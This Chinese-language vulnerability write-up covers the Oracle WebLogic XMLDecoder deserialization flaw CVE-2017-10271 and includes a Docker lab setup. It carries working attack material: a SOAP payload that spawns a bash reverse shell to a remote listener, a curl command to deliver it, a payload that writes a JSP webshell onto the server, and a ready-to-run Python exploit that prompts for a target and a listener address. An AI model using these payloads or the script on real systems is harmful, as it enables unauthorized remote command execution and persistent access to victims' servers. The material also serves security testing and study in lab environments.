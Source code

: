 # Weblogic XMLDecoder 远程代码执行漏洞 CVE-2017-10271

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

## 影响版本

> [!NOTE]
>
> Weblogic 10.3.6.0.0
>
> Weblogic 12.1.3.0.0
>
> Weblogic 12.2.1.0.0
>
> Weblogic 12.2.1.2.0

## 环境搭建

```
git clone https://github.com/vulhub/vulhub.git
cd vulhub/weblogic/CVE-2017-10271
docker-compose up -d
```

访问 http://xxx.xxx.xxx.xxx:7001 正常即可

![](image/weblogic-1.png)

## 漏洞复现

对 http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType 进行访问，存在这个url则可能存在漏洞

![](image/weblogic-2.png)

使用POST方法上传以下数据反弹一个shell

```xml
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/10.0.0.1/21 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

使用Curl反弹shell (将上面的xml数据保存为poc.xml)

```
curl -v -X POST -H "Content-Type: text/xml" --data @poc.xml "http://xxx.xxx.xxx.xxx:7001/wls-wsat/CoordinatorPortType"
```

![](image/weblogic-3.png)

也可以通过漏洞写入webshell文件

```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问 http://xxx.xxx.xxx.xxx:7001/bea_wls_internal/test.jsp 即可得到写入的文件

## 漏洞利用POC

利用 [weblogic-scan](https://github.com/kingkaki/weblogic-scan)快速检测

![](image/weblogic-4.png)

> [!NOTE]
>
> 反弹shell exp

```python
#!/usr/bin/python3
#-*- coding:utf-8 -*-
# author : PeiQi
# from   : http://wiki.peiqi.tech

import requests
import sys
import json

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech         \033[0m')
    print('+  \033[34mVersion: Weblogic 10.3.6.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.1.3.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.0.0            \033[0m')
    print('+  \033[34m         Weblogic 12.2.1.2.0            \033[0m')
    print('+  \033[36m使用格式: python3 CVE-2017-10271.py      \033[0m')
    print('+  \033[36mUrl    >>> http://xxx.xxx.xxx.xxx:7001  \033[0m')
    print('+  \033[36mCmd    >>> shell(反弹shell)              \033[0m')
    print('+------------------------------------------')

def POC_1(target_url, IP, PORT):
    vuln_url = target_url + "/wls-wsat/CoordinatorPortType"
    headers = {
        "Content-Type": "text/xml",
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
    }
    data = """
        <soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java version="1.4.0" class="java.beans.XMLDecoder">
        <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
        <void index="0">
        <string>/bin/bash</string>
        </void>
        <void index="1">
        <string>-c</string>
        </void>
        <void index="2">
        <string>bash -i &gt;&amp; /dev/tcp/%s/%s 0&gt;&amp;1</string>
        </void>
        </array>
        <void method="start"/></void>
        </java>
        </work:WorkContext>
        </soapenv:Header>
        <soapenv:Body/>
        </soapenv:Envelope>
    """ % (IP,PORT)
    try:
        response = requests.request("POST", url=vuln_url, headers=headers, data=data)
    except:
        print("\033[31m[x] 漏洞利用失败 \033[0m")


if __name__ == '__main__':
    title()
    target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
    IP = str(input("\033[35m请输入监听IP   >>> \033[0m"))
    PORT = str(input("\033[35m请输入监听PORT >>> \033[0m"))
    POC_1(target_url, IP, PORT)
```

![](image/weblogic-5.png)